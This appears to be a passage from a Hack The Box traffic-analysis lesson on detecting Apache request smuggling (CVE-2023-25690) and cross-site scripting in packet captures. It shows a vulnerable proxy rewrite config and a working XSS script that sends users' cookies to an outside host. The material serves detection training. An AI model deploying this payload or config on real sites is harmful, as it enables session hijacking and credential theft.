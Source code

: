 Code: txt

```txt
<VirtualHost *:80>

    RewriteEngine on
    RewriteRule "^/categories/(.*)" "http://192.168.10.100:8080/categories.php?id=$1" [P]
    ProxyPassReverse "/categories/" "http://192.168.10.100:8080/"

</VirtualHost>
```

[CVE-2023-25690](https://github.com/dhmosfunk/CVE-2023-25690-POC)

As such watching for these code 400s can give clear indication to adversarial actions during our traffic analysis efforts. Additionally, we would notice if an attacker is successful with this attack by finding the code `200` (`success`) in response to one of the requests which look like this.



## Cross-Site Scripting (XSS) & Code Injection Detection

**Related PCAP File(s)**:

* `XSS_Simple.pcapng`

***

Suppose we were looking through our HTTP requests and noticed that a good amount of requests were being sent to an internal "server," we did not recognize. This could be a clear indication of cross-site scripting. Let's take the following output for example.

![XSS](https://academy.hackthebox.com/storage/modules/229/1-XSS.png)

We might notice alot of values being sent over, and in real cases this might not be as obvious that these are user's cookies/tokens. Instead, it might even be encoded or encrypted while it is in transit. Essentially speaking, cross-site scripting works through an attacker injecting malicious javascript or script code into one of our web pages through user input. When other users visit our web server their browsers will execute this code. Attackers in many cases will utilize this technique to steal tokens, cookies, session values, and more. If we were to follow one of these requests it would look like the following.

![XSS](https://academy.hackthebox.com/storage/modules/229/2-XSS\_.png)

Getting down to the root of where this code is originating can be somewhat tricky. However, suppose we had a user comment area on our web server. We might notice one of the comments looks like the following.

Code: javascript

```javascript
<script>
  window.addEventListener("load", function() {
    const url = "http://192.168.0.19:5555";
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const request = new XMLHttpRequest();
    request.open("GET", url + "?" + params);
    request.send();
  });
</script>
```
